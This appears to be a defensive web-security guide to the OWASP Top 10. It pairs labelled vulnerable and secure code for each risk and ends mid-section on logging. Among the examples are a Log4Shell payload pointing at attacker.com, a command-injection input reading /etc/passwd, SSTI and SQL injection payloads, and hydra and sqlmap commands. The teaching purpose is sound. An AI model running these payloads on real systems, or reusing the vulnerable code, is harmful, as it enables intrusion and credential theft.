







The OWASP Top 10 is the industry-standard list of the most critical web application security risks, compiled from data across hundreds of thousands of real applications. Updated periodically by the Open Worldwide Application Security Project.

**Current edition: OWASP Top 10:2021**


### 2021
| # | Risk | Incidence | Severity |
|---|---|---|---|
| A01 | Broken Access Control | 94% of apps | Critical |
| A02 | Cryptographic Failures | 51% | Critical |
| A03 | Injection | 19% | Critical |
| A04 | Insecure Design | 4% | High |
| A05 | Security Misconfiguration | 90% | High |
| A06 | Vulnerable & Outdated Components | 27% | High |
| A07 | Identification & Authentication Failures | 14% | High |
| A08 | Software & Data Integrity Failures | 6% | High |
| A09 | Security Logging & Monitoring Failures | 6% | Medium |
| A10 | Server-Side Request Forgery (SSRF) | 3% | High |

### 2025

| #   | Risk | Incidence / Prevalence (approx.)  | Severity  |
|---|---|---|---|
| A01 | Broken Access Control                          | ~3–4% of applications (CWE-based datasets), but most frequently exploited class                  | Critical  |
| A02 | Security Misconfiguration                      | Extremely widespread across modern systems (cloud + APIs + defaults)                              | High      |
| A03 | Software Supply Chain Failures                 | Low direct detection rate, very high systemic exposure via dependencies and CI/CD pipelines       | Critical  |
| A04 | Cryptographic Failures                         | ~3–4% of applications show weak or incorrect crypto usage                                         | Critical  |
| A05 | Injection                                      | One of the most commonly detected vulnerability classes in real-world testing                     | Critical  |
| A06 | Insecure Design                                | Moderate prevalence (~3–5%), often architectural rather than implementation-level                 | High      |
| A07 | Identification & Authentication Failures       | Moderate occurrence; frequently exploited in credential attacks                                   | High      |
| A08 | Software & Data Integrity Failures             | Low–moderate detection rate, high exploitation impact                                              | High      |
| A09 | Security Logging & Monitoring Failures         | Often under-detected; weak visibility and alerting across systems                                  | Medium    |
| A10 | Mishandling of Exceptional Conditions          | Emerging category; limited historical incidence data, increasing relevance in modern systems       | High      |

### The Changes



---

2021 Standard
## A01 — Broken Access Control

**CWEs:** CWE-200, CWE-284, CWE-285, CWE-639 (IDOR), CWE-862 (Missing Authorization)

Access control enforces that users can only act within their permitted scope. Broken access control means those checks are absent, incomplete, or bypassable.

### Attack Mechanics

The most common pattern is **Insecure Direct Object Reference (IDOR)**: the app exposes a resource identifier (database row ID, filename) and the user can swap it for another.



Other patterns:
- **Forced browsing** — navigating directly to `/admin`, `/config`, or `/internal-api` without being authenticated
- **Privilege escalation** — modifying a `role` claim in a JWT or request body to become an admin
- **Method override** — a `GET /api/users/123` is read-only but `DELETE /api/users/123` is unprotected
- **Missing function-level authorization** — UI hides a "Delete" button but the underlying API endpoint is unprotected

### Vulnerable vs Secure Code

```javascript
// VULNERABLE — no ownership check
app.get('/api/invoices/:id', authenticate, async (req, res) => {
  const invoice = await db.invoices.findById(req.params.id);
  res.json(invoice); // any authenticated user can read any invoice
});

// SECURE — enforce ownership server-side
app.get('/api/invoices/:id', authenticate, async (req, res) => {
  const invoice = await db.invoices.findOne({
    id: req.params.id,
    ownerId: req.user.id, // ← ties resource to the requesting user
  });
  if (!invoice) return res.status(404).json({ error: 'Not found' });
  res.json(invoice);
});
```

```python
# VULNERABLE — role check on client-supplied data
@app.route('/admin/users')
def admin_users():
    role = request.json.get('role')   # attacker can send role=admin
    if role == 'admin':
        return jsonify(get_all_users())

# SECURE — read role from server-side session only
@app.route('/admin/users')
@login_required
def admin_users():
    if current_user.role != 'admin':   # role from authenticated session
        abort(403)
    return jsonify(get_all_users())
```

### Real-World Incidents

- **Facebook 2019** — An IDOR in the password reset flow allowed attackers to reset any account's password by enumerating numeric user IDs.
- **Parler 2021** — Predictable sequential post IDs (no ownership check) allowed bulk download of 99% of all posts before the platform was taken down.
- **Snapchat 2014 (Gibson Security)** — The `find_friends` API had no rate limiting and leaked phone → username mappings for 4.6 million accounts.

### How to Test

```bash
# 1. Authenticate as User A, get a resource ID
curl -H "Authorization: Bearer TOKEN_A" https://api.example.com/invoices/1042

# 2. Use User A's token to request User B's resource
curl -H "Authorization: Bearer TOKEN_A" https://api.example.com/invoices/1043

# 3. Expect 403 or 404 — if you get 200, it's broken access control

# 4. Try accessing admin endpoints without admin role
curl -H "Authorization: Bearer TOKEN_A" https://api.example.com/admin/users
```

### Defenses

- Enforce authorization **server-side on every request** — never rely on what the client sends for permission decisions
- Default deny: if no explicit allow rule matches, deny
- Use non-guessable identifiers (UUIDs not sequential integers) as a secondary measure — but this is not a substitute for server-side checks
- Log all access-control failures and alert on repeated failures from the same identity

---

## A02 — Cryptographic Failures

**CWEs:** CWE-261, CWE-311, CWE-327, CWE-328, CWE-330

Sensitive data is exposed because it is transmitted or stored without adequate encryption, or with cryptographically broken algorithms.

### What Breaks

| Scenario | Broken | Secure |
|---|---|---|
| Password storage | MD5, SHA-1, unsalted SHA-256 | Argon2id, bcrypt (cost ≥ 12), scrypt |
| Symmetric encryption | DES, 3DES, RC4, ECB mode | AES-256-GCM |
| Transport | HTTP, TLS 1.0 / 1.1 | TLS 1.2+ (prefer 1.3) with HSTS |
| Key storage | Hardcoded in source or env vars in repo | AWS KMS, HashiCorp Vault, GCP Secret Manager |
| Random numbers | `Math.random()`, `rand()` | `crypto.randomBytes()`, `secrets` module |

### Vulnerable vs Secure Code

```python
# VULNERABLE — MD5 with no salt
import hashlib
stored = hashlib.md5(password.encode()).hexdigest()

# VULNERABLE — reversible encryption for passwords
from cryptography.fernet import Fernet
key = b'hardcoded-key-in-source'
stored = Fernet(key).encrypt(password.encode())  # passwords should never be reversible

# SECURE — Argon2id
from argon2 import PasswordHasher
ph = PasswordHasher(time_cost=3, memory_cost=65536, parallelism=4)
stored = ph.hash(password)
# Verify:
ph.verify(stored, password)  # raises VerifyMismatchError on failure
```

```javascript
// VULNERABLE — ECB mode (same plaintext → same ciphertext, leaks patterns)
const cipher = crypto.createCipheriv('aes-256-ecb', key, null);

// SECURE — AES-GCM (authenticated encryption — detects tampering)
const iv = crypto.randomBytes(12); // 96-bit IV, unique per message
const cipher = crypto.createCipheriv('aes-256-gcm', key, iv);
let encrypted = cipher.update(plaintext, 'utf8');
encrypted = Buffer.concat([encrypted, cipher.final()]);
const authTag = cipher.getAuthTag(); // store alongside iv + ciphertext
```

### Real-World Incidents

- **Adobe 2013** — 153 million passwords stored with 3DES in ECB mode. Because the same password always produced the same ciphertext, attackers could crowd-source cracking by finding duplicate hashes.
- **RockYou 2009** — 32 million plaintext passwords stored in the database. The entire dataset has been used in credential-stuffing attacks ever since.
- **Heartbleed (CVE-2014-0160)** — OpenSSL memory disclosure bug; private TLS keys were readable from server memory without authentication.

### How to Test

```bash
# Check TLS version and cipher suites
nmap --script ssl-enum-ciphers -p 443 example.com

# Check HSTS header
curl -sI https://example.com | grep -i strict-transport

# Check for mixed content (HTTP resources on HTTPS page)
# Use browser DevTools Network tab → filter by http://
```

### Defenses

- Never store passwords with reversible encryption — use Argon2id (first choice), bcrypt (cost ≥ 12), or scrypt
- Enforce HTTPS everywhere; set `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload`
- Use AES-256-GCM for data at rest; never use ECB mode
- Store encryption keys in a dedicated secrets manager — not in source code, not in `.env` files committed to git
- Use `crypto.randomBytes()` / `secrets.token_bytes()` for all security-sensitive random values

---

## A03 — Injection

**CWEs:** CWE-74, CWE-77, CWE-78 (OS cmd), CWE-89 (SQL), CWE-94 (code injection), CWE-1336 (template injection)

Attacker-controlled data is interpreted as code or commands by an interpreter. SQL, LDAP, OS command, template, and XML injection all fall here.

### SQL Injection

The classic. User input is concatenated into a SQL string instead of being parameterized.

```mermaid
sequenceDiagram
    participant Attacker
    participant App
    participant DB

    Attacker->>App: POST /login<br/>email: ' OR '1'='1' --<br/>password: anything
    Note over App: Builds query by string concat
    App->>DB: SELECT * FROM users WHERE email='' OR '1'='1' --' AND password=...
    Note over DB: '1'='1' is always true; -- comments out password check
    DB-->>App: First row in users table
    App-->>Attacker: Logged in as first user (often admin)
```

```sql
-- VULNERABLE — string concatenation
query = "SELECT * FROM users WHERE email = '" + email + "' AND password = '" + password + "'"

-- Attacker input: email = ' OR '1'='1' --
-- Result:
SELECT * FROM users WHERE email = '' OR '1'='1' --' AND password = '...'
-- Returns all users; -- comments out the rest

-- SECURE — parameterized query (the only reliable defense)
query = "SELECT * FROM users WHERE email = $1 AND password_hash = $2"
db.query(query, [email, passwordHash])
```

### Second-Order SQL Injection

Stored input is used safely on first write but unsafely when retrieved and used later:

```sql
-- Step 1: user registers with username:  admin'--
-- It's safely inserted via parameterized query. No immediate harm.

-- Step 2: app later builds a dynamic query using the stored username
query = "UPDATE users SET email = '" + email + "' WHERE username = '" + stored_username + "'"
-- stored_username = admin'--
-- Result: UPDATE users SET email = 'x' WHERE username = 'admin'--'
-- Updates the admin user's email, not the attacker's
```

### OS Command Injection

```python
# VULNERABLE — user input passed to shell
import subprocess
filename = request.args.get('file')
result = subprocess.run(f'convert {filename} output.pdf', shell=True, capture_output=True)
# Attacker input: "report.docx; cat /etc/passwd"
# Runs: convert report.docx; cat /etc/passwd

# SECURE — avoid shell=True; pass arguments as a list
result = subprocess.run(['convert', filename, 'output.pdf'], capture_output=True)
# Arguments are never interpreted as shell commands
```

### Template Injection (SSTI)

```python
# VULNERABLE — user input rendered directly as a Jinja2 template
from flask import render_template_string
template = request.args.get('name')
return render_template_string(f"Hello {template}!")
# Attacker input: {{7*7}} → renders "Hello 49!"
# Attacker input: {{config.SECRET_KEY}} → leaks app secret key
# Attacker input: {{"".__class__.__mro__[1].__subclasses__()}} → code execution

# SECURE — never render user input as a template
return render_template_string("Hello {{ name }}!", name=request.args.get('name'))
# name is passed as data, not as template syntax
```

### LDAP Injection

```python
# VULNERABLE
ldap_filter = f"(uid={username})(userPassword={password})"
# Attacker input: username = "admin)(&"
# Filter becomes: (uid=admin)(&)(userPassword=...) — always true

# SECURE — escape special LDAP characters
import ldap3
safe_username = ldap3.utils.conv.escape_filter_chars(username)
ldap_filter = f"(uid={safe_username})"
```

### How to Test

```bash
# SQLi — try basic payloads
curl "https://api.example.com/users?id=1'"
curl "https://api.example.com/users?id=1 OR 1=1"

# Use sqlmap for automated detection (with authorization only)
sqlmap -u "https://api.example.com/users?id=1" --level=3

# SSTI — mathematical expression test
curl "https://example.com/hello?name={{7*7}}"
# "Hello 49!" confirms template injection
```

### Defenses

- **Parameterized queries / prepared statements** — the only reliable defense against SQL injection
- ORM query builders (but audit any raw query usage)
- Never concatenate user input into shell commands; pass args as arrays with `shell=False`
- Escape template input; never render raw user input as a template
- Least-privilege database accounts — the app user should not have `DROP TABLE` or `CREATE USER` permissions

See [Input Validation](/security/api/input-validation) and [SQL Injection](/security/web/sql-injection) for full coverage.

---

## A04 — Insecure Design

**CWEs:** CWE-73, CWE-183, CWE-209, CWE-306, CWE-770

Security flaws baked into the architecture. Unlike implementation bugs, these are missing or fundamentally flawed security controls that no amount of correct implementation can fix.

### Examples

**Account enumeration via password reset:**
```
POST /forgot-password  { email: "alice@example.com" }

VULNERABLE response: "No account found for that email."  ← tells attacker the email isn't registered
SECURE response:     "If an account exists, a reset email has been sent."  ← always the same
```

**Insufficient rate limiting by design:**
```
No limit on /api/login → enables credential stuffing attacks (millions of attempts)
No limit on /api/send-otp → enables OTP brute-force (10,000 4-digit codes = 10 min attack)
No limit on /api/forgot-password → enables email flooding / account lockout DoS
```

**Missing business logic controls:**
```
Shopping cart:
  quantity=-1 → negative price, results in negative total → store owes attacker money
  coupon code reuse not checked → same 50% coupon used 1000 times
  price is sent from client → attacker modifies price field in request body
```

**Weak recovery mechanisms:**
```
"What is your mother's maiden name?" — answers are often publicly available via social media
```

### Threat Modeling

Insecure design is prevented during the design phase, not after. The core practice is **threat modeling**:

```
1. What are we building? (data flow diagram)
2. What can go wrong? (STRIDE: Spoofing, Tampering, Repudiation, Info Disclosure, DoS, Elevation)
3. What are we going to do about it? (mitigations)
4. Did we do a good job? (validation)
```

### Defenses

- Threat model during the design phase — identify assets, threats, and controls before writing code
- Security requirements as acceptance criteria in user stories (not an afterthought)
- Limit resource usage by design: rate limiting on all credential endpoints, maximum retry counts, session timeouts
- Never expose internal state in error messages or API responses

---

## A05 — Security Misconfiguration

**CWEs:** CWE-2, CWE-16, CWE-388, CWE-732

Correct software, incorrectly configured. The most common finding in any security assessment, and almost always automated-scannable.

### Common Misconfigurations

**Default credentials:**
```
Admin panel at /admin — username: admin / password: admin
Database shipped with root/empty password
Kubernetes dashboard exposed with no auth
```

**Verbose error messages:**
```json
// VULNERABLE — stack trace in API response
{
  "error": "TypeError: Cannot read property 'id' of null\n    at /app/routes/users.js:42\n    at Layer.handle..."
}

// SECURE — generic message, details in server-side logs only
{
  "error": "Internal server error",
  "requestId": "req_abc123"
}
```

**CORS misconfiguration:**
```javascript
// VULNERABLE — reflects any origin
app.use(cors({
  origin: (origin, callback) => callback(null, true), // allows ANY origin
  credentials: true, // allows cookies — now any site can read your API with the user's credentials
}));

// SECURE — explicit allowlist
const allowed = new Set(['https://app.example.com', 'https://admin.example.com']);
app.use(cors({
  origin: (origin, callback) => {
    if (!origin || allowed.has(origin)) callback(null, true);
    else callback(new Error('Not allowed by CORS'));
  },
  credentials: true,
}));
```

**Cloud storage misconfiguration:**
```bash
# S3 bucket publicly readable — anyone can list and download all objects
aws s3 ls s3://company-backups --no-sign-request

# Check your buckets
aws s3api get-bucket-acl --bucket my-bucket
aws s3api get-bucket-policy --bucket my-bucket
```

**Missing security headers:**
```
Without X-Frame-Options or CSP frame-ancestors → clickjacking possible
Without Content-Security-Policy → XSS impact amplified
Without X-Content-Type-Options: nosniff → MIME sniffing attacks possible
```

### How to Test

```bash
# Scan for common misconfigurations
nikto -h https://example.com

# Check security headers
curl -sI https://example.com | grep -iE "x-frame|x-content|strict-transport|content-security"

# Check if debug endpoints are exposed
curl https://example.com/actuator/env        # Spring Boot
curl https://example.com/__debug__/          # Django
curl https://example.com/api/swagger-ui.html # Swagger UI in prod
```

### Defenses

- Infrastructure as code with security defaults baked in; review diffs for config changes
- Automated config scanning: cloud security posture management (AWS Security Hub, GCP SCC)
- HTTP security headers — see [HTTP Security Headers](/auth/implementation/http-security-headers)
- Remove or disable every service, port, and feature not actively needed
- Separate environments: dev/staging should never have production credentials

---

## A06 — Vulnerable and Outdated Components

**CWEs:** CWE-937, CWE-1035 (using vulnerable components)

Using third-party libraries, frameworks, or OS packages with known vulnerabilities, or running end-of-life software.

### Why This Is Critical

Your application's attack surface is the sum of all your dependencies' attack surfaces. A vulnerability in a transitive dependency (a dependency of a dependency) is equally exploitable.



### Log4Shell (CVE-2021-44228) — Case Study

Log4j is a Java logging library. In 2021 it was discovered that if an attacker could get their string into a log message, they could trigger remote code execution:

```java
// Log4j would look up and execute JNDI/LDAP URLs embedded in log strings
logger.info("User login: {}", username);
// Attacker sends username: ${jndi:ldap://attacker.com/exploit}
// Log4j fetches the URL and executes the returned Java class
```

Impact: ~40% of enterprise networks were affected within 72 hours of disclosure.

### Dependency Scanning

```bash
# Node.js
npm audit
npm audit --audit-level=high  # fail only on high/critical

# Python
pip install pip-audit
pip-audit

# Java
mvn dependency-check:check   # OWASP Dependency-Check

# Containers
trivy image myapp:latest
grype myapp:latest

# All of the above, in CI (GitHub Actions)
# npm audit, trivy, etc. should fail the build on critical CVEs
```

### Software Bill of Materials (SBOM)

An SBOM is a machine-readable inventory of every component in your application. Required by US Executive Order 14028 for software sold to the federal government.

```bash
# Generate SBOM with Syft
syft myapp:latest -o cyclonedx-json > sbom.json

# Scan SBOM for vulnerabilities
grype sbom:./sbom.json
```

### Defenses

- Run `npm audit` / `pip-audit` / `trivy` in CI — fail builds on critical CVEs
- Use Dependabot or Renovate for automated dependency update PRs
- Pin exact versions in lock files (`package-lock.json`, `Pipfile.lock`, `go.sum`)
- Subscribe to security advisories for your critical dependencies (GitHub Advisory Database, NVD)
- Maintain an SBOM for each released version
- Track and upgrade end-of-life runtimes (check [endoflife.date](https://endoflife.date))

---

## A07 — Identification and Authentication Failures

**CWEs:** CWE-255, CWE-287, CWE-295, CWE-307, CWE-384, CWE-521, CWE-613, CWE-620

Weaknesses in authentication logic. Previously called "Broken Authentication."

### Attack Patterns

**Credential stuffing** — using leaked username/password pairs from breached sites:
```
Attacker obtains dump of 10M email:password pairs from RockYou2024 leak
→ Runs automated tool against your login endpoint
→ ~1-3% success rate = 100k-300k compromised accounts
```

**Brute force / password spraying:**
```bash
# Brute force: try many passwords against one account
hydra -l alice@example.com -P wordlist.txt https-post-form "/login:email=^USER^&password=^PASS^:Invalid"

# Password spray: try one common password against many accounts
# "Summer2024!" against all 50,000 usernames — avoids per-account lockout
```

**Session fixation:**


**Weak session IDs:**
```javascript
// VULNERABLE — predictable session ID
const sessionId = Date.now().toString(); // easily guessable
const sessionId = Math.random().toString(36); // Math.random() is not cryptographically random

// SECURE — cryptographically random
const sessionId = crypto.randomBytes(32).toString('hex'); // 256 bits of entropy
```

### Vulnerable vs Secure Login

```javascript
// VULNERABLE — no rate limiting, no lockout, timing attack possible
app.post('/login', async (req, res) => {
  const user = await db.users.findOne({ email: req.body.email });
  if (!user || user.password !== req.body.password) {  // plaintext comparison!
    return res.status(401).json({ error: 'Invalid credentials' });
  }
  req.session.userId = user.id;
  res.json({ ok: true });
});

// SECURE
const rateLimit = require('express-rate-limit');
const bcrypt = require('bcrypt');

const loginLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 min window
  max: 10,                   // max 10 attempts per IP
  message: 'Too many login attempts',
});

app.post('/login', loginLimiter, async (req, res) => {
  const user = await db.users.findOne({ email: req.body.email });
  // Use constant-time comparison to prevent timing attacks
  const valid = user && await bcrypt.compare(req.body.password, user.passwordHash);
  if (!valid) return res.status(401).json({ error: 'Invalid credentials' });

  // Regenerate session ID on login to prevent session fixation
  req.session.regenerate(() => {
    req.session.userId = user.id;
    res.json({ ok: true });
  });
});
```

### Defenses

- Rate limit and implement progressive lockout on credential endpoints (login, OTP, password reset)
- Regenerate session IDs on login (session fixation prevention)
- Use constant-time comparison for credential checking
- Check passwords against known breach databases ([haveibeenpwned API](https://haveibeenpwned.com/API/v3))
- Enforce MFA for all accounts, especially admin roles
- Enforce strong password policy (length over complexity; minimum 12 characters)

See the [Auth section](/auth) for complete coverage.

---

## A08 — Software and Data Integrity Failures

**CWEs:** CWE-345, CWE-353, CWE-426, CWE-494, CWE-502, CWE-506, CWE-565

Assumptions about software updates, CI/CD pipelines, and serialized data without verifying their integrity.

### Insecure Deserialization

Deserializing attacker-controlled data can lead to remote code execution in many languages/frameworks.

```java
// VULNERABLE — Java native deserialization of untrusted data
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
Object obj = ois.readObject(); // if the attacker crafts a malicious serialized object,
                               // this can trigger arbitrary code execution via gadget chains
```

```python
# VULNERABLE — pickle deserialization of user input
import pickle, base64
data = base64.b64decode(request.args.get('data'))
obj = pickle.loads(data)  # pickle can execute arbitrary Python code

# SECURE — use JSON for data exchange; never deserialize untrusted native objects
import json
obj = json.loads(request.data)  # JSON has no code execution semantics
```

### Supply Chain Attacks



Real-world examples:
- **SolarWinds (2020)** — Attackers compromised the build system and injected a backdoor (SUNBURST) into signed SolarWinds Orion updates. ~18,000 organizations installed it.
- **event-stream (2018)** — Malicious maintainer added code to steal cryptocurrency wallets from apps using `copay-dash`.
- **ua-parser-js (2021)** — npm account hijacked; published versions contained cryptominer and password stealer.
- **XZ Utils (2024, CVE-2024-3094)** — A two-year social engineering attack added a backdoor to the xz compression library that would have affected most Linux distributions' SSH.

### Defenses

- Pin dependency versions and hashes in lock files (`package-lock.json`, `poetry.lock`, `go.sum`)
- Verify signatures on downloaded software; use checksums from official channels
- Restrict who can modify CI/CD pipelines; require code review for pipeline changes
- Enable audit logging on your package registry accounts; use MFA
- Avoid deserializing native objects from untrusted sources — use JSON
- Run SCA tools (Software Composition Analysis) in CI to detect known-malicious packages

---

## A09 — Security Logging and Monitoring Failures

**CWEs:** CWE-117, CWE-223, CWE-532, CWE-778

Insufficient logging and alerting means attacks go undetected. The average breach **dwell time is 204 days** before discovery.

### What to Log (and What Not To)

```javascript
// WHAT TO LOG — security-relevant events
logger.info({
  event: 'auth.login.success',
  userId: user.id,
  ip: req.ip,
  userAgent: req.headers['user-agent'],
  timestamp: new Date().toISOString(),
});

logger.warn({
  event: 'auth.login.failure',
  email: req.body.email,  // log the email, not the attempted password
  ip: req.ip,
  reason: 'invalid_credentials',
});

// Other events to log:
// auth.logout, auth.password_reset, auth.mfa_failure, auth.token_revoked
// authz.access_denied (with resource + action)
// admin actions (user created, role changed, config modified)
// payment events, data exports, bulk operations

// WHAT NOT TO LOG — sensitive data that creates new exposure
// ❌ Passwords, even hashed
// ❌ Full credit card numbers (PAN) — log last 4 only
// ❌ SSNs, full dates of birth
// ❌ Session tokens / JWTs (invalidate their security if logged)
// ❌ Personal messages or health data
```

### Log Aggregation and Alerting

```
Application Servers
      │
      ▼
